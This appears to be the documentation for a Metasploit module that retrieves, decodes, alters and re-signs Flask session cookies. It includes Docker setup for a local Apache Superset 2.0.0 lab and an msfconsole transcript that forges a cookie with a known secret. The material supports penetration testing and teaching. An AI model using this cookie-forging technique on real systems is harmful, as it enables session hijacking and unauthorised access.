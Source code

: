 ## Vulnerable Application

This is a generic module which can manipulate Python Flask based application cookies.
The action Retrieve will connect to a web server, grab the cookie, and decode it.
The action Resign will do the same as above, but after decoding it, it will replace
the contents with that in NEWCOOKIECONTENT, then sign the cookie with SECRET. This
cookie can then be used in a browser. This is a ruby based implementation of some
of the features in the python project Flask-Unsign.

### Example Application

Apache Superset can be used since it is based on Flask.

```
sudo docker run -p 8088:8088 -name superset apache/superset:2.0.0
sudo docker exec -it superset superset fab create-admin \
              --username admin \
              --firstname Superset \
              --lastname Admin \
              --email admin@superset.com \
              --password admin
sudo docker exec -it superset superset db upgrade
sudo docker exec -it superset superset init
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/python_flask_cookie_signer`
1. Do: `set rhosts [IP]`
1. Do: `run`
1. You should get a decoded cookie

## Actions

### Retrieve

Retrieve a cookie from an HTTP(s) server

### Resign

Retrieve, Alter and Resign a cookie

## Options

### TARGETURI

The URI which gives a cookie. Redirects are NOT followed.

### NEWCOOKIECONTENT

When action is set to `Resign`, the content of the decoded cookie will be replaced with this content.

### SECRET

When action is set to `Resign`, the cookie is signed with this secret.


## Scenarios

### Apache Superset 2.0.0

```
msf6 > use auxiliary/gather/python_flask_cookie_signer
msf6 auxiliary(gather/python_flask_cookie_signer) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 auxiliary(gather/python_flask_cookie_signer) > set rport 8088
rport => 8088
msf6 auxiliary(gather/python_flask_cookie_signer) > set targeturi /login/
targeturi => /login/
msf6 auxiliary(gather/python_flask_cookie_signer) > run
[*] Running module against 127.0.0.1

[*] 127.0.0.1:8088 - Retrieving Cookie
[*] 127.0.0.1:8088 - Initial Cookie: session=eyJjc3JmX3Rva2VuIjoiMDhlNTFkZDFmMzUyZDY3OTBlNmFiOWI5OWRhZGQ2MjE2MDJiOTE4OSIsImxvY2FsZSI6ImVuIn0.ZMmDyA.OiPnG2YRoSLni17IGkmBEdDgOsY;
[+] 127.0.0.1:8088 - Decoded Cookie: {"csrf_token"=>"08e51dd1f352d6790e6ab9b99dadd621602b9189", "locale"=>"en"}
[*] Auxiliary module execution completed
msf6 auxiliary(gather/python_flask_cookie_signer) > set newcookiecontent '{"csrf_token"=>"08e51dd1f352d6790e6ab9b99dadd621602b9189", "locale"=>"fr"}'
newcookiecontent => {"csrf_token"=>"08e51dd1f352d6790e6ab9b99dadd621602b9189", "locale"=>"fr"}
msf6 auxiliary(gather/python_flask_cookie_signer) > set secret 'secretkey'
secret => secretkey
msf6 auxiliary(gather/python_flask_cookie_signer) > set action resign
action => resign
msf6 auxiliary(gather/python_flask_cookie_signer) > run
[*] Running module against 127.0.0.1

[*] Attempting to sign with key: secretkey
[+] 127.0.0.1:8088 - New signed cookie: IntcImNzcmZfdG9rZW5cIj0-XCIwOGU1MWRkMWYzNTJkNjc5MGU2YWI5Yjk5ZGFkZDYyMTYwMmI5MTg5XCIsIFwibG9jYWxlXCI9PlwiZnJcIn0i.ZMmD7A.RqLmwH96weZQ2nGn8FArL4T0v7c
[*] Auxiliary module execution completed
msf6 auxiliary(gather/python_flask_cookie_signer) > 
```
